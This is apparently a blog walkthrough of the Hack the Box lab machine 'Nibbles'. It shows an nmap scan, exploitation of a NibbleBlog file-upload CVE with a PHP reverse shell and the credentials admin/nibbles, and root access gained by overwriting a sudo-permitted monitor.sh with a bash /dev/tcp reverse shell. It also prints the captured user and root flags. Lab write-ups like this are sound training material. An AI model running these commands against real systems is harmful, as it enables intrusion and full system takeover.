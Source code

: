 ```yaml
---
title: Nibbles - Hack the Box
date: 2024-10-13 12:29:12 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Nibbles.png
---
```

---
title: Nibbles - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Nibbles.png
---
---
title: 2024-10-12-Nibbles - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Nibbles.png
---
![Image](/assets/Nibbles.png)

Nibbles is a very smooth box that runs close to HTB standards for easier machines... Thorough web enumeration and simple privilege escalation. Let's get it.
### Scan
```
└─# nmap -sV -sC --open -p- 10.10.10.75
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-09 20:19 EDT
Nmap scan report for 10.10.10.75
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.30 seconds

```

### Enumeration

This box has two connections on ports 22 and 80, running their respective services. You know how I feel about SSH, so we'll start with port 80.

##### 80 - NibbleBlog

![Image](/assets/Screenshot 2024-09-09 at 8.31.49 PM.png)

The landing page of the website doesn't give us much. However, when we take a closer look, we're given a bone. Using this newfound directory, we can feed feroxbuster (I know, no gobuster anymore) our parameters and get a lot of information.

![Image](/assets/Screenshot 2024-09-09 at 8.35.09 PM.png)

Moseying around some of these yields very valuable information, including usernames and versions. The kicker, though, comes from doing our research online.

![Image](/assets/Screenshot 2024-09-09 at 8.39.23 PM.png)

We find out about CVE-2015-6967, which allows us to upload unrestricted files to the server, and access via `content/private/plugins/my_image/image.php`. We also can find a python script built for this blog specifically, and even some credentials hanging around... (I'll take it!)

![Image](/assets/Screenshot 2024-09-09 at 8.56.20 PM.png)

### Initial Access

Downloading the script, we need to find a PHP reverse shell that we can couple with it, because the script will give us access to our payload through the server. I used: `/usr/share/laudanum/php/php-reverse-shell.php`. Once the parameters are configured with hosts and credentials, set up a wrapped listener and fire away.

`rlwrap nc -nlvp XXXX`

`exploit.py  -l http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload php-reverse-shell.php`

Once we have a shell, we need to stabilize it

![Image](/assets/Screenshot 2024-09-09 at 8.59.27 PM.png)

Then, we can navigate to the home directory for our flag.

`USER:2df045e9e5b920914459d4ae04491c9b`

### Privilege Escalation

Once in our shell and looking to move vertically, we can run `sudo -l` to get an idea of what we can and cannot do. As seen below, we've got access to the `monitor.sh` executable, which is great news for us.

![Image](/assets/Screenshot 2024-09-09 at 9.00.01 PM.png)

All that needs to be done is overwrite the original script with a Bash one-liner pointing to another listener that we have set up on our Kali box.

The directory is hidden behind a zip file, so unzip.

![Image](/assets/Screenshot 2024-09-09 at 9.04.05 PM.png)

Then, rewrite the script using the line below. `nano` and `vim` were being very touchy, so I just used `echo`.

```
echo -e '#!/bin/bash

# Define the IP address and port of the remote listener
REMOTE_IP="10.10.14.3" # Replace with your IP
REMOTE_PORT="9001"        # Replace with your desired port

# Ensure the script is running with root privileges
if [[ "$EUID" -ne 0 ]]; then
  echo "Please run this script as root."
  exit 1
fi

# Attempt to open a reverse shell using netcat
echo "Opening a reverse shell to $REMOTE_IP:$REMOTE_PORT..."
/bin/bash -i >& /dev/tcp/$REMOTE_IP/$REMOTE_PORT 0>&1' > monitor.sh
```

Once you've popped the root shell, `cd` to the directory and grab your flag.

`ROOT:1b7cbd064fd08f66523ddc338bf1b985`

#easy #linux #manual 
